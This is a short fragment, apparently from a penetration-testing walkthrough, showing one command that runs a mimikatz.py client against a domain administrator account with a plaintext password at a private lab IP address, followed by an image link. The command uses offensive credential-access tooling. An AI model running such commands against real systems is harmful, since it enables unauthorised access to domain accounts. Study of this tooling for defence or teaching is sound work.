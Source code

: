 ```plain
py -3 .\mimikatz.py test.com/administrator:1qaz@WSX@192.168.40.158
```

[![](assets/1702372846-6bd8893e19a02c04fc7fc18626138f57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123733-b6d03d16-6bb1-1.png)
